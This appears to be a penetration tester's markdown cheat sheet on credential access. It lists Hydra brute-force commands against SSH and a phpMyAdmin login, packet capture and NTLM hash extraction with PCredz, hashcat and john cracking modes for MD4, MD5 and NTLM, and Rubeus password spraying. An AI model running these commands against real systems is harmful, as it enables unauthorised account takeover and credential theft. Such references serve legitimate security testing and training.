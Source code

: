 # Credential Access

## Password Guessing
### Hydra
**SSH**
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET -t4 ssh
```

**HTTP** (e.g., PHP login page)
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET \
  http-post-form "/phpmyadmin/index.php?:pma_username=^USER^&pma_password=^PASS^:Cannot|without"
```

## Password Cracking
### PCredz
```bash
sudo tcpdump -ni eth0 -w ntlm.pcap
python ./Pcredz -f ntlm.pcap 
hashcat -a0 -w3 -m5600 NTLMv2.txt /usr/share/wordlists/rockyou.txt
john NTLMv2.txt
```

### Hashcat
**MD4**
```bash
hashcat -m 900 -a 0 hash.txt rockyou.txt
hashcat -m 900 -a 3 hash.txt ?l?l?l?l?l?l?l?l?l?l # brute force, 10 chars
hashcat -m 900 -a 3 -1 ?l?u?d hash.txt ?1?1?1?1?1 # lower, upper, decimal
hashcat -m 900 hash.txt rockyou.txt -r /opt/hashcat/rules/best64.rule
```

**MD5**
```bash
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

**NTLM**
```bash
hashcat -m 1000 -a 0 hash.txt rockyou.txt
```

## Password Spraying
### Rubeus
```bash
rubeus.exe brute /password:Password1 /noticket
```